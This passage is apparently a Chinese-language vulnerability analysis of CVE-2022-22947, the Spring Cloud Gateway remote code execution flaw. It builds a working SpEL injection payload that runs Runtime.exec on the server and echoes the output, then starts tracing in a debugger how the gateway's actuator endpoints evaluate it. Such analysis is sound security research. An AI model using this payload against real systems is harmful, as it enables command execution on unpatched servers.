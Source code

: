 - `SpEL` 表达式约定放置在 `#{xxx}` 中的
- `SpEL` 表达式支持类型的使用，使用方法就是 `T(类的完整路径)`，如： `T(java.lang.Math).PI` 就可以引用 `PI` 的值

### payload 的成因

1. 构造 `Java` 代码

   - 最终要执行的命令

     ```java
     Process exec = Runtime.getRuntime().exec(new String[]{"whoami"});
     ```

   - 获取执行的结果流

     ```java
     InputStream stream = exec.getInputStream();
     ```

   - 使用 `StreamUtiles` 工具类将结果流转换成字节数组，再使用 `new String` 转换成字符串形式回显

     ```java
     String s = new String(StreamUtils.copyToByteArray(stream));
     ```

2. 整理 `Java` 代码，结合上面写到的 `SpEL` 表达式的使用方法，构造成 `SpEL` 表达式，形成最终 `payload`

   ```java
   #{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}
   ```

### payload 的解析与执行

1. `debug` 模式启动 `Spring Cloud Gateway` 服务端，打开 `debug` 选项卡，选中 `Autuator` 标签，点选左侧 `Show Library Mapping` （一个柱状图图标），然后再选中上方 `Mappings`， 可以看到服务端暴露的接口列表，包含刚用到的 `/actuator/gateway/routes/{id}`、 `/actuator/gateway/refresh` 等，右侧是与之对应的类和方法名。

   ![](./../.vuepress/public/images/CVE-2022-22947-Spring Cloud Gateway RCE/payload解析_01.png)

2. 漏洞复现一共执行了 3 个操作，分别是添加、刷新、访问。对应的方法分别是： `AbstractGatewayControllerEndpoint#save`、 `AbstractGatewayControllerEndpoint#refresh`、 `AbstractGatewayControllerEndpoint#route`，在这三个方法入口打上断点，再次进行漏洞复现，并断点跟踪

3. 在对 `AbstractGatewayControllerEndpoint#refresh` 方法内跟踪，发现进入到 `ConfigurationService#normalizeProperties` 中

   ```java
   public class ConfigurationService implements ApplicationEventPublisherAware {
       ...
       @Override
       protected Map<String, Object> normalizeProperties() {
           if (this.service.beanFactory != null) {
               return this.configurable.shortcutType().normalize(this.properties, this.configurable,
                                                                 this.service.parser, this.service.beanFactory);
           }
           return super.normalizeProperties();
       }
       ...
   }
   ```
